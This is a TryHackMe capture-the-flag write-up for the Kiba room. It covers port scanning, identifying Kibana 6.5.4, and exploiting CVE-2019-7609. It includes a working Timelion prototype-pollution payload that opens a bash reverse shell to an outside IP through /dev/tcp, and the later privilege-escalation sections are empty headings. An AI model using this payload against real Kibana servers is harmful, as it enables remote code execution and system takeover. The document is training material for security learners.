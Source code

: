 # WriteUp of Kiba Room from TryHackMe

##	What is the vulnerability that is specific to programming languages with prototype-based inheritance?
Prototype Pollution

## What is the version of visualization dashboard installed in the server?
We will start our enumeration with rustscan
```
rustscan <IP> -u 5000
```
output
```
Open 10.10.93.74:80
Open 10.10.93.74:22
Open 10.10.93.74:5601
```
So 5601 is port for kibana so we can go to the webpage and check for the version of kibana by search in the source code.
So the version is 6.5.4

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
CVE-2019-7609


## Compromise the machine and locate user.txt
Payload for the exploit
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
Steps:-
```
We have a prototype pollution in Timelion.
After clicking "Canvas", Kibana spawns a new process.
We can control the environmental variables passed to the new node process.
We can execute arbitrary JavaScript code if we control environmental variables to the new node process.
This leads to RCE in Kibana < 6.6.0.
```

## Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

## How would you recursively list all of these capabilities?

## Escalate privileges and obtain root.txt

